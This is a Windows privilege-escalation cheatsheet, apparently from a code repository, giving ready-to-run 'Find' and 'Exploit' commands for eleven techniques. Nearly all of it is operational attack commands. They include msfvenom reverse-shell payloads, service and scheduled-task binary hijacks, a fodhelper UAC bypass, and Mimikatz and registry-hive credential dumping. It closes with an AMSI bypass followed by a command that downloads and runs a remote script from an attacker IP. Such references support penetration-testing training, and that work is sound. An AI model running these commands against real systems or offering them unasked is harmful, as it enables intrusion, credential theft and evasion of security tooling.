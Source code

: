 # Windows Privesc Exploitation Cheatsheet

This cheatsheet provides the specific "Find" and "Exploit" commands for the 11 Windows privilege escalation techniques.

---

### ## 1. Enumeration / Basic Commands

The goal of enumeration is to gather intelligence for other exploits. The "exploit" is the act of gathering the data.

* **Exploit Commands:**
    ```powershell
    rem -- Check user, groups, and privileges
    whoami /all

    rem -- Get OS and patch info for kernel exploits
    systeminfo

    rem -- Find interesting running services
    tasklist /SVC

    rem -- Automatically find low-hanging fruit
    .\winPEASx64.exe -quiet
    ```

---

### ## 2. Weak Service Permissions

Hijack a service your user has permission to modify.

* **Find:**
    ```powershell
    accesschk.exe /accepteula -uwcqv "Users" *
    ```
* **Exploit Commands:**
    ```powershell
    rem -- Reconfigure the service's binary to your payload
    sc config <VulnSvc> binPath= "C:\tmp\payload.exe"

    rem -- Restart the service to execute the payload as SYSTEM
    sc stop <VulnSvc>
    sc start <VulnSvc>
    ```

---

### ## 3. Unquoted Service Paths

Exploit a service path with spaces that is not enclosed in quotes.

* **Find:**
    ```powershell
    wmic service get name,pathname,startmode | findstr /i "auto" | findstr /i /v "c:\windows\\" | findstr /i /v "\""
    ```
* **Exploit Commands:**
    ```powershell
    rem -- Create a malicious executable named after the first part of the path
    rem -- e.g., for "C:\Program Files\App\vuln.exe", name it "Program.exe"
    msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<Port> -f exe -o Program.exe

    rem -- Place the payload in the higher-level path and restart the service
    copy Program.exe "C:\"
    sc stop <VulnSvc>
    sc start <VulnSvc>
    ```

---

### ## 4. SeImpersonate / SeAssignPrimaryToken Privilege Escalation

Abuse token impersonation privileges to become **SYSTEM**.

* **Find:**
    ```powershell
    whoami /priv
    ```
* **Exploit Command:**
    ```powershell
    rem -- Use a tool like PrintSpoofer to get a SYSTEM shell
    PrintSpoofer.exe -i -c "cmd.exe"
    ```

---

### ## 5. DLL Hijacking

Load a malicious DLL into a privileged application.

* **Find:** Use **ProcMon.exe** to find `NAME NOT FOUND` errors for `.dll` files.
* **Exploit Commands:**
    ```powershell
    rem -- Create a malicious DLL with the same name as the missing one
    msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<Port> -f dll -o vulnerable.dll

    rem -- Place it in the writable directory and restart the application
    copy vulnerable.dll "C:\Path\To\Writable\Folder\"
    ```

---

### ## 6. Sensitive Files & Hashes (SAM/LSA Secrets)

Extract credentials from files or memory.

* **Find:**
    ```powershell
    rem -- Search for passwords in common config files
    dir /s /b *unattended*.xml *web.config* *pass*.txt
    ```
* **Exploit Commands (Requires Admin):**
    ```powershell
    rem -- Dump hashes from LSA memory with Mimikatz
    mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" exit

    rem -- Dump SAM and SYSTEM hives for offline cracking
    reg save hklm\sam C:\tmp\sam.save
    reg save hklm\system C:\tmp\system.save
    ```

---

### ## 7. Windows Vault / Credential Manager

Retrieve credentials saved by users.

* **Exploit Commands:**
    ```powershell
    rem -- List all credentials stored in the vault
    cmdkey /list

    rem -- Dump vault credentials with Mimikatz
    mimikatz.exe "vault::cred" exit
    ```

---

### ## 8. Scheduled Tasks

Hijack a privileged task that points to a writable file.

* **Find:**
    ```powershell
    rem -- List tasks and then check permissions on the target binary
    schtasks /query /fo LIST /v
    icacls "C:\Path\To\TaskBinary.exe"
    ```
* **Exploit Commands:**
    ```powershell
    rem -- Overwrite the writable binary with your payload
    rem -- The original binary will be replaced. The task will run your payload on its next trigger.
    copy /Y C:\tmp\payload.exe "C:\Path\To\TaskBinary.exe"
    ```

---

### ## 9. AlwaysInstallElevated

Install an MSI package with **SYSTEM** privileges.

* **Find:**
    ```powershell
    rem -- Check if both registry keys are set to 1
    reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
    reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
    ```
* **Exploit Commands:**
    ```powershell
    rem -- Create a malicious MSI installer
    msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<Port> -f msi -o payload.msi

    rem -- Run the installer on the target machine with no admin rights needed
    msiexec /quiet /qn /i C:\tmp\payload.msi
    ```

---

### ## 10. UAC Bypass

Elevate from a medium-integrity shell to a high-integrity shell.

* **Find:** Check UAC settings and the Windows build number.
* **Exploit Command (Example using fodhelper):**
    ```powershell
    rem -- Hijack the registry key that fodhelper.exe reads from
    reg add HKCU\Software\Classes\ms-settings\shell\open\command /d "C:\tmp\payload.exe" /f

    rem -- Execute fodhelper.exe to trigger the payload in a high-integrity context
    fodhelper.exe
    ```

---

### ## 11. AMSI Bypass

Disable anti-malware scanning for your current PowerShell session.

* **Exploit Command:**
    ```powershell
    rem -- Run this command first in your PowerShell session
    [Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)

    rem -- Now you can run enumeration scripts like PowerUp without being blocked
    IEX (New-Object Net.WebClient).DownloadString('http://<IP>/PowerUp.ps1'); Invoke-AllChecks
    ```
